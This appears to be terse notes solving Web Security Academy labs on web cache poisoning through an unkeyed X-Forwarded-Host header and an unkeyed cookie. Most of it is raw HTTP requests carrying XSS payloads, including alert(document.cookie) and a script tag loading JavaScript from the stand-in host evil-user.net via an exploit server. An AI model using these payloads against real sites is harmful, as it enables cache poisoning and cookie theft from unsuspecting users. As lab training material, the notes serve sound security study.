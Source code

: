 ### Web cache poisoning with an unkeyed header

```
GET / HTTP/1.1
Host: 0a9c00c60376a5c6c0ed3e2500950097.web-security-academy.net
X-Forwarded-Host: evil-user.net
```

```
GET / HTTP/1.1
Host: 0a9c00c60376a5c6c0ed3e2500950097.web-security-academy.net
X-Forwarded-Host: evil-user.net">
```

```
GET / HTTP/1.1
Host: 0a9c00c60376a5c6c0ed3e2500950097.web-security-academy.net
X-Forwarded-Host: evil-user.net"></script>
```

```
GET / HTTP/1.1
Host: 0a9c00c60376a5c6c0ed3e2500950097.web-security-academy.net
X-Forwarded-Host: evil-user.net"></script><script>alert(document.cookie)</script>
```

By right way (with exploit server):

```
GET / HTTP/1.1
Host: 0ae1008e04a56000c06a13f8007a0000.web-security-academy.net
X-Forwarded-Host: evil-user.net
```

```
<script type="text/javascript" src="//evil-user.net/resources/js/tracking.js"></script>
```

```
GET / HTTP/1.1
Host: 0ae1008e04a56000c06a13f8007a0000.web-security-academy.net
X-Forwarded-Host: exploit-0ab8003e04df60ffc0571389018100f0.exploit-server.net
```

```
/resources/js/tracking.js

alert(document.cookie)
```

### Web cache poisoning with an unkeyed cookie

```
GET / HTTP/1.1
Host: 0a7d0025040ae5e3c0a51c3b003d0088.web-security-academy.net
Cookie: session=0u2q9XAfJFr8Wyhzexw3WuuG21lTaBjG; fehost=change_me
```

```
GET / HTTP/1.1
Host: 0a7d0025040ae5e3c0a51c3b003d0088.web-security-academy.net
Cookie: session=0u2q9XAfJFr8Wyhzexw3WuuG21lTaBjG; fehost=prod-cache-03"}
```

